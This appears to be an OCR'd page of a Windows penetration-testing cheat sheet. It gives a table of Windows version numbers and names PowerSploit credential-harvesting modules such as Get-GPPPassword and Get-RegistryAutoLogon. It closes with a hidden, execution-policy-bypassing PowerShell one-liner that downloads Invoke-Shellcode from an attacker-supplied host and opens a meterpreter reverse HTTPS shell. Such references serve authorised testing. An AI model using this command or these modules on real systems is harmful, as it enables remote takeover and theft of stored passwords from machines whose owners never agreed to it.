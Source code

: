 ### Windows version map

```text
Operating System     Version Number

Windows 1.0                    1.04
Windows 2.0                    2.11
Windows 3.0                    3
Windows NT 3.1                 3.10.528
Windows for Workgroups 3.11    3.11
Windows NT Workstation 3.5     3.5.807
Windows NT Workstation 3.51    3.51.1057
Windows 95                     4.0.950
Windows NT Workstation 4.0     4.0.1381
Windows 98                     4.1.1998
Windows 98 Second Edition      4.1.2222
Windows Me                     4.90.3000
Windows 2000 Professional      5.0.2195
Windows XP                     5.1.2600
Windows Vista                  6.0.6000
Windows 7                      6.1.7600
Windows 8.1                    6.3.9600
Windows 10                     10.0.10240
```

## Automated tools

### Powersploit

PowerSploit is a collection of Microsoft PowerShell modules that can be used to aid penetration testers during all phases of an assessment

```text
https://github.com/PowerShellMafia/PowerSploit
Get-GPPPassword
Get-UnattendedInstallFile
Get-Webconfig
Get-ApplicationHost
Get-SiteListPassword
Get-CachedGPPPassword
Get-RegistryAutoLogon
```

### **Reverse Shell from Windows**

If there’s a way, we can execute code from windows, we may try

* Uploading ncat and executing it
* Powershell Empire/ Metasploit Web-Delivery Method
* Invoke-Shellcode \(from powersploit\) see below

```text
Powershell.exe -NoP -NonI -W Hidden -Exec Bypass IEX (New-Object Net.WebClient).DownloadString('http://YourIPAddress:8000/Invoke-Shellcode.ps1'); Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost YourIPAddress -Lport 4444 -Force"
```

